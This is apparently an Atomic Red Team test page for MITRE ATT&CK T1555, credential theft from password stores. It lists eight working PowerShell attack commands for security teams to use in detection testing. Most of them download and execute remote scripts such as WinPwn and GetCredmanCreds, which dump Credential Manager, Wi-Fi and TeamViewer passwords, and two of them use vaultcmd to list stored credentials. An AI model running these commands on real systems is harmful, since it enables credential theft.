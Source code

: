 # T1555 - Credentials from Password Stores
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555)
<blockquote>Adversaries may search for common password storage locations to obtain user credentials.(Citation: F-Secure The Dukes) Passwords are stored in several places on a system, depending on the operating system or application holding the credentials. There are also specific applications and services that store passwords to make them easier for users to manage and maintain, such as password managers and cloud secrets vaults. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Windows Credential Manager via VBA](#atomic-test-1---extract-windows-credential-manager-via-vba)

- [Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]](#atomic-test-2---dump-credentials-from-windows-credential-manager-with-powershell-windows-credentials)

- [Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]](#atomic-test-3---dump-credentials-from-windows-credential-manager-with-powershell-web-credentials)

- [Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]](#atomic-test-4---enumerate-credentials-from-windows-credential-manager-using-vaultcmdexe-windows-credentials)

- [Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]](#atomic-test-5---enumerate-credentials-from-windows-credential-manager-using-vaultcmdexe-web-credentials)

- [Atomic Test #6 - WinPwn - Loot local Credentials - lazagne](#atomic-test-6---winpwn---loot-local-credentials---lazagne)

- [Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials](#atomic-test-7---winpwn---loot-local-credentials---wifi-credentials)

- [Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords](#atomic-test-8---winpwn---loot-local-credentials---decrypt-teamviewer-passwords)


<br/>

## Atomic Test #1 - Extract Windows Credential Manager via VBA
This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt

**Supported Platforms:** Windows


**auto_generated_guid:** 234f9b7c-b53d-4f32-897b-b880a6c9ea7b






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  $process = "winword"
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** c89becbe-1758-4e7d-a0f4-97d2188a23e3






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/TriggerMan-S/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
```






<br/>
<br/>

## Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** 8fd5a296-6772-4766-9991-ff4e92af7240






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/TriggerMan-S/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
```






<br/>
<br/>

## Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]
This module will enumerate credentials stored in Windows Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 36753ded-e5c4-4eb5-bc3c-e8fba236878d






#### Attack Commands: Run with `powershell`! 


```powershell
vaultcmd /listcreds:"Windows Credentials" /all
```






<br/>
<br/>

## Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]
This module will enumerate credentials stored in Web Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** bc071188-459f-44d5-901a-f8f2625b2d2e






#### Attack Commands: Run with `powershell`! 


```powershell
vaultcmd /listcreds:"Web Credentials" /all
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - Loot local Credentials - lazagne
The [LaZagne project](https://github.com/AlessandroZ/LaZagne) is an open source application used to retrieve lots of passwords stored on a local computer. 
Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.). 
This tool has been developed for the purpose of finding these passwords for the most commonly-used software

**Supported Platforms:** Windows


**auto_generated_guid:** 079ee2e9-6f16-47ca-a635-14efcd994118






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
lazagnemodule -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials
Loot local Credentials - Wifi Credentials technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** afe369c2-b42e-447f-98a3-fb1f4e2b8552






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
wificreds -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords
Loot local Credentials - Decrypt Teamviewer Passwords technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** db965264-3117-4bad-b7b7-2523b7856b92






#### Attack Commands: Run with `powershell`! 


```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
decryptteamviewer -consoleoutput -noninteractive
```






<br/>
